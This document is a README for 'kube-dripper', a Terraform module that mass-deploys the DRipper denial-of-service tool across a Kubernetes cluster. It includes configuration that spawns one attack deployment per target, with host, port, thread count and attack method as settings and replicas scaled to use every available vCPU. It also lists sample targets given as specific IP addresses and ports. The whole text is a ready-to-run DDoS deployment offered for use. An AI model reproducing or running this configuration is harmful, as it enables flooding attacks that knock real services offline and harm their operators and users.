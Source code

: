 # kube-dripper
DRipper batch deploy on Kubernetes via Terraform

## how to use it

I'm assuming you already have a Kubernetes cluster running somewhere, if not - get one!

```terraform
module "ripper_deployment" {
  source = "./modules/v1_deployment"
  for_each = toset(var.attack_hosts)

  deployment_name = "${split(",", each.value)[0]}-deployment"

  ripper_attack_host = split(",", each.value)[0]
  ripper_attack_port = split(",", each.value)[1]
  thread_count       = split(",", each.value)[2]
  attack_method      = split(",", each.value)[3]

  number_of_replicas = (var.vcpus_per_node / 0.5 * var.node_pool_size) / length(var.attack_hosts)
}
```

`attack_hosts` is a list of comma-separated values: `<host>,<port>,<thread_count>,<attack_type>`, for instance:
```terraform
attack_hosts = [
  "217.12.104.100,80,100,http",
  "92.38.145.145,80,100,http",
  "92.38.145.145,443,100,http",
  "92.38.145.145,444,100,http"
]
```
